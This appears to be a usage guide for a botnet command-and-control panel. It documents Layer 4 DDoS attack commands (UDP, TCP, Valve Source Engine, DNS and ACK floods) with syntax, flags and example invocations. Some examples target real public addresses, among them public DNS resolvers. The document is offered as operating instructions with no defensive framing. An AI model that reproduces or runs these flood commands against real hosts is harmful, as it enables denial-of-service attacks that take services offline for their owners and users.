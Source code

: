 # CNC Attack Methods Usage Guide

## Basic Syntax
```
<method> <target> <duration> [flags]
```

## Available Attack Methods

### Layer 4 Attacks

#### 1. **UDP Flood** (`udpflood`)
```
udpflood <target> <duration> [flags]
```
**Example:**
```
udpflood 50.7.22.221 20 dport=53
udpflood 192.168.1.1 30 len=1024 dport=80
```

#### 2. **TCP Flood** (`tcpflood`)
```
tcpflood <target> <duration> [flags]
```
**Example:**
```
tcpflood 50.7.22.221 20 dport=80 syn=1
tcpflood 192.168.1.1 30 len=512 sport=80 dport=443
```

#### 3. **VSE Flood** (`vseflood`) - Valve Source Engine
```
vseflood <target> <duration> [flags]
```
**Example:**
```
vseflood 50.7.22.221 20 dport=53
vseflood 192.168.1.1 30 len=1024 dport=27015
```

#### 4. **DNS Flood** (`dnsflood`)
```
dnsflood <target> <duration> [flags]
```
**Example:**
```
dnsflood 8.8.8.8 20 domain=google.com dport=53
dnsflood 1.1.1.1 30 len=512 domain=example.com
```

#### 5. **ACK Flood** (`ackflood`)
```
ackflood <target> <duration> [flags]
```
**Example:**
```
ackflood 50.7.22.221 20 dport=80 ack=1
ackflood 192.168.1.1 30 len=1024 sport=80 dport=443
```
